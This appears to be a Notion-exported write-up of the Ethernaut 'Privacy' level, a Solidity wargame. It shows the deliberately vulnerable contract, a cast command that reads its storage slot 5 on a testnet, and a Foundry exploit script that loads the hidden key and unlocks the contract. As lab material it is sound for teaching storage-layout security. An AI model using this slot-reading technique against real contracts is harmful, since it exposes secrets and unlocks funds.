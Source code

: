 ```yaml
---
title: "Privacy"
date: "2024-02-10"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Elevator-59c41c694afa45c68e603000da840a2e"
weight: 13
state: "En cours"
level-url: "https://ethernaut.openzeppelin.com/level/12"
next: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0141c599-3182-4d74-a831-1099eb338d5d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Elevator-59c41c694afa45c68e603000da840a2e"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator-59c41c694afa45c68e603000da840a2e"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-10"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 13
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "e1f6ef4b-49ae-427f-9bb4-8736089f3aa2"
        name: "En cours"
        color: "blue"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/12"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Privacy"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy"
          href: null
  url: "https://www.notion.so/Privacy-0141c59931824d74a8311099eb338d5d"
  public_url: null
UPDATE_TIME: "2024-02-15T19:35:32.147Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


title: Privacy
weight: 13
type: docs
prev: elevator
next: gatekeeper-one


[Level12](https://ethernaut.openzeppelin.com/level/12) - ⭐⭐⭐


---


The creator of this contract was careful enough to protect the sensitive areas of its storage.


Unlock this contract to beat the level.


Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it
is presenting problems. Advanced gameplay could involve using remix, or
your own web3 provider.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(block.timestamp); // slot 2
  bytes32[3] private data; // [slot3, slot4, slot5]

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```


for more details on storage layout read this article:


[bookmark](https://docs.alchemy.com/docs/smart-contract-storage-layout)


So, the `_key` is stored at slot 5 since it is `data[2]`:


```solidity
➜  ~/repos/ethernaut (main) cast storage --rpc-url $SEPOLIA_RPC_URL $INSTANCE_12 5
0xe32410e9fbc1f17b0f1d9a6ed141317f11c4b2a5d38981dfa025aacf8b708d7d
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Privacy} from "../src/12.sol";


contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_12");

        vm.startBroadcast(deployerPrivateKey);

        Privacy privacy = Privacy(addr);
        console.log('isLocked : %s', privacy.locked());
				
				// vm.load() allows us to read arbitrary storage slot
        bytes16 key = bytes16(vm.load(address(privacy), bytes32(uint(5))));
        privacy.unlock(key);
        
        console.log('isLocked : %s', privacy.locked());

        vm.stopBroadcast();

    }
}
```


Nothing
 in the ethereum blockchain is private. The keyword private is merely an
 artificial construct of the Solidity language. Web3's `getStorageAt(...)`
 can be used to read anything from storage. It can be tricky to read 
what you want though, since several optimization rules and techniques 
are used to compact the storage as much as possible.


It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)


More info:


[bookmark](https://medium.com/@0xZorz/how-to-read-dynamic-arrays-directly-from-storage-using-foundry-bdf5a104b8f6)

